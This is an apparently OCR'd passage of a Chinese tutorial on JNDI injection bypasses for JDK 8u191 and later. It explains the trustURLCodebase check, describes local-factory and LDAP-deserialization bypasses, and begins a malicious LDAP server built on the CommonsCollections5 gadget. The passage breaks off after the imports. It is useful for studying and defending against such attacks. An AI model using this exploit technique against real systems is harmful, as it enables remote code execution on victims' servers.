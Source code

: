 如果trustURLCodebase为false则直接返回null

```java
public Class<?> loadClass(String className, String codebase)
        throws ClassNotFoundException, MalformedURLException {
    if ("true".equalsIgnoreCase(trustURLCodebase)) {
        ClassLoader parent = getContextClassLoader();
        ClassLoader cl =
                URLClassLoader.newInstance(getUrlArray(codebase), parent);

        return loadClass(className, cl);
    } else {
        return null;
    }
}
```

### JDK >= 8u191

关于JDK >= 8u191的利用目前公开有两种绕过的方法，**这里测试的JDK版本为JDK 8u201**

```java
两种绕过⽅法如下： 

1、找到⼀个受害者本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类, 并利用这个本地的 Factory 类执行命令. 

2、利⽤ LDAP 直接返回⼀个恶意的序列化对象, JNDI 注⼊依然会对该对象进⾏反序列化操作, 利用反序列化 Gadget 完成命令执行. 
这两种⽅式都依赖受害者本地 CLASSPATH 中环境, 需要利⽤受害者本地的 Gadget 进行攻击
```

#### 通过反序列化

通过反序列化，那么前提是客户端得有可用的Gadgets

服务端参考marshalsec.jndi.LDAPRefServer，简单修改一下即可，这里使用的Gadget是**CommonsCollections5**

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class ldap_server191 {
```